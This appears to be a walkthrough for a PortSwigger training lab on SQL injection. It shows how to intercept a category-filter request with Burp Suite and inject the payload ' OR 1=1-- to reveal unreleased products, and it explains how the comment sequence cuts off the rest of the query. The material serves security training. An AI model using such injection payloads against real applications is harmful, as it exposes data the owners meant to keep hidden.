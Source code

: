 
### [Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)


###  **Steps to Solve:**

1. **Visit the Lab Webpage.**
   * Navigate to the shop interface.

2. **Use Burp Suite to Intercept a Category Filter Request.**
   * Select any category. Intercept the request in Burp.

3. **Modify the Category Parameter in the Request:**
   ```sql
   Gifts' OR 1=1-- 
   ```
   ```raw
   (/filter?category=Gifts'+OR+1=1--)
   ```

   * The updated query becomes:
     ```sql
     SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
     ```

4. **Forward the Modified Request.**
   * Observe that the server returns **unreleased products**.

5. **Check the Lab Page for Completion.**
   * If unreleased products are shown, the lab auto-solves.


### Key Notes

* `' OR 1=1--` is a classic injection to **bypass filters** and return **all rows**.
* `--` is used to **comment out** the rest of the SQL query (e.g., `AND released = 1`).
* Always look for **injection points** in parameters that affect SQL queries.
* Burp Suite is crucial for **intercepting and modifying** raw HTTP requests.
